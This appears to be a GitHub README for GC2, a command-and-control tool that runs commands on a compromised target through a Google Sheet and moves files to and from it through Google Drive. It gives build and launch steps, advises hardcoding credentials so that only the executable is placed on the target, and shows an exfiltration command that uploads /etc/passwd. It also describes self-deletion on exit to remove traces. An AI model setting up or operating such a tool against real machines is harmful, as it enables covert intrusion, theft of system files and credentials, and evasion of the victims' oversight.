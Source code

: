 # GC2

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet and exfiltrates data using Google Drive.


# Set up

1. **Build executable**
 
    ```bash
    git clone <asdf>
    cd <asdf>
    go build gc2-sheet.go
    ```

2. **Create a new google "service account"**
 
    Create a new google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account 

3. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go) 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and add the service account to the editor group of the spreadsheet (to add the service account use its email)
    
    ![](img/sheet_permissions.png)
    
    Create a new Google Drive folder and add the service account to the editor group of the folder (to add the service account use its email)
    
    ![](img/drive_permissions.png)

4. **Start the C2**

    ```bash
    gc2-sheet --key <GCP service account credential in JSON> --sheet <Google sheet ID> --drive <Google drive ID>
    ```
   
   PS: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go and authentication.go)

## Features

- Command execution using Google Sheet as a console
- Download files on the target using Google Drive
- Data exfiltration using Google Drive
- Exit

### Command execution

The program will perform a request to the spreedsheet every 5 sec to check if there are some new commands.
Commands must be inserted in the column "A", and the output will be printed in the column "B". 

### Data exfiltration file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
From Target to Google Drive
upload;<remote path>
Example:
upload;/etc/passwd
 ```

### Download file

Special commands are reserved to perform the upload and download to the target machine

 ```bash
 From Google Drive to Target
download;<google drive file id>;<remote path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.


# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)